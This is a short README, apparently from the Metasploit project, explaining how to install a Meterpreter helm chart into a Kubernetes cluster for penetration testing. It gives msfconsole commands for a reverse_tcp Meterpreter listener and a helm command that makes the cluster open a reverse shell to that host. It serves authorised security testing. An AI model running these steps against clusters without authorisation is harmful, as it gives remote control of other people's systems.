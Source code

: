 # Metasploit in Kubernetes

The most common workflow to test a Kubernetes environment with Metasploit is to target the Kubernetes API externally,
or through a compromised container - both of these workflows are currently supported directly within msfconsole.

An alternative to compromising a Kubernetes container to gain a Meterpreter session is to install the `meterpreter` helm chart into
a Kubernetes environment directly. This newly opened Meterpreter session will act as the pivot point for running additional
Metasploit modules, similar to the behavior of compromising an existing Kubernetes container with msfconsole.

## Installation

To install the Metasploit resources in to your Kubernetes environment: 

1. Make sure [Helm](https://helm.sh/) (version 3 or above) is [installed](https://helm.sh/docs/intro/install/)
2. Make sure you have an available Kubernetes cluster to deploy Metasploit. You can install a local Kubernetes cluster using [kind](https://kind.sigs.k8s.io/docs/user/quick-start/#installation)
   You can create local kind cluster by running  `make create-kind-cluster`
2. A penester should create a Metasploit listener from msfconsole:
```
use payload/linux/x64/meterpreter/reverse_tcp
set LHOST x.x.x.x
set LPORT 4444
to_handler
```

3. Install meterpreter helm chart by running:

```sh
export LHOST="x.x.x.x"
export LPORT="4444"
helm upgrade --create-namespace -i -n metasploit meterpreter ./meterpreter --set lhost=$LHOST --set lport=$LPORT
```
4. If the listener from step 3 was created, ensure you now have a Meterpreter session in msfconsole

## Privileges

The Meterpreter container can be deployed with different privileges and permissions - see the `privileges` section within
[./meterpreter/values.yaml](values.yaml) for more details.
